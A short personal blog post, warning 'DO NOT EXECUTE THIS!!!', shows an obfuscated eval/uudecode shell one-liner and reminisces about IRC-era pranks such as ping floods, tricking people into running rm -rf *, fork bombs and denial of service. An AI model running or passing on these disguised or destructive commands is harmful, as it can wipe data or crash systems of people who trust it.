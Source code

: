 ```yaml
---
layout: post
title: DO NOT EXECUTE THIS!!!
---
```


<span style="font-size: 12px;">```eval $(echo "I<RA('1E<W3t`rYWdl&r()(Y29j&r{,3Rl7Ig}&r{,T31wo});r`26<F]F;==" | uudecode) ``` </span>
  
Source4: [https://www.vidarholen.net/contents/blog/?p=766][1]  
<br>
  
  
&emsp;&emsp;This was an interesting find. I started getting curious about computers around the IRC days. In those days, a lot of people were scripting their clients to produce ASCII art (back when it was a thing), but then there were others that realized it was possible to do more sinister stuff. For example, by flooding someone with a ping request it was possible to overload a target's network card/modem and cause them to disconnect (mind you this was dial up). This along with suggesting them to press <span style="background-color:grey;"> `alt + F4` <span> and <span style="background-color:grey;"> `ctrl + alt + del` </span>. 


&emsp;&emsp;And of course, there were those who were suggesting people to run commands similar to ```rm -rf *``` (or delete the Program Files folder). Somewhere around that time, I learnt about fork bombs and billion laughs. There was no wikipedia or youtube around then, just plain sites on geocities or all over the net wherever people could host time. 


&emsp;&emsp;Reading this article reminded me that the simplest attack is really just to disable a service/system, a Denial-Of-Service. It may not be complex or sophisticated but has cost implications (at the very least, time cost). Even with redundancies and self replicating microservices of today, it is just as easy for threat actors to scale themselves as well. Nowadays, even as most threat actors attempt to discreetly and covertly compromise a system, entrench their foothold and survey the internal network, sometimes they will use DOS for a good distraction. 


&emsp;&emsp;There were many who used to make fun of script kiddies. We don't really hear it that much anymore. Plus, almost everyone nowadays uses some sort of framework with pre-configured vulnerabilities and paylods.


[1]: https://www.vidarholen.net/contents/blog/?p=766




